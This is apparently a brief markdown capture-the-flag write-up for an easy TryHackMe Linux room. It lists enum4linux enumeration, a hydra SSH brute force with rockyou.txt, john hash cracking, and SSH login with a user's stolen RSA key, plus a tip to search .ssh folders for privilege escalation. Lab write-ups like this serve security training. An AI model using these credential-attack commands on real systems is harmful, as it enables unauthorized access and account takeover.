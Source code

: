 # Boxname 🧭
Names | Details
--------|-----
Source | Tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- enum4linux
- bruteforce with hydra using rockyou.txt



## Maintaining Access 🥷
- Got RSA key from user.
	- logged within host


## Important commands 🔥
- enum4linux -a  
- hydra -L /home/nms/Desktop/word -P /usr/share/wordlists/rockyou.txt ssh://10.10.99.93  
-  john --wordlist=/usr/share/wordlists/rockyou.txt hh.hash  
- ssh -i /home/kay/.ssh/id\_rsa kay@10.10.99.93

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- enumerate linux machines using enum4linux
- search for .ssh in home directory of any user for privilege escalation

--------------------------------
**By Nibras Muhammed** 🤓🖥️






